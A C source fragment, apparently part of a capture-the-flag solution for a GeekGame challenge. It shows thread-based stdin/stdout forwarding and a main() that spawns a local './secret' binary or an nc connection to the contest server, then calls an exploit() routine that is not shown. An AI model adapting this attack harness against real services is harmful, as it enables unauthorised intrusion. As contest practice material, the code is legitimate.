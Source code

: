 ```c
    if (nbytes == 0)
      break;
    fflush(fps.out_fp);

    free(buffer);
    buffer = NULL;
  }

  if (buffer)
    free(buffer);
  fclose(fps.in_fp);
  fclose(fps.out_fp);
  return NULL;
}

static void forward(FILE *rfile, FILE *wfile)
{
  struct piped_fps fps1 = {
    .in_fp = stdin,
    .out_fp = wfile,
  };
  struct piped_fps fps2 = {
    .in_fp = rfile,
    .out_fp = stdout,
  };
  pthread_t th1, th2;

  pthread_create(&th1, NULL, &pipe_fp, &fps1);
  pthread_create(&th2, NULL, &pipe_fp, &fps2);

  pthread_join(th1, NULL);
  pthread_join(th2, NULL);
}

int main(int argc, char *argv[])
{
  FILE *rfile, *wfile;
  pid_t pid;
  int remote;

  remote = argc != 1;
  if ((argc > 2) || (argc == 2 &&
        strcmp(argv[1], "-s") != 0)) {
    fprintf(stderr,
        "Usage: %s [-s]\n"
        "\t-s\tConnect to the server and submit your results\n",
        argv[0]);
    return 0;
  }

  pid = spawn(
      remote ? "nc prob12.geekgame.pku.edu.cn 10012" : "./secret",
      &rfile, &wfile);
  if (pid < 0)
    return -1;
  fprintf(stderr, "spawn pid=%d\n", pid);

  fprintf(stderr, "Press <Enter> to continue...");
  fflush(stderr);
  getchar();

  if ((remote && request_and_send_token(rfile, wfile) < 0)
      || exploit(rfile, wfile) < 0) {
```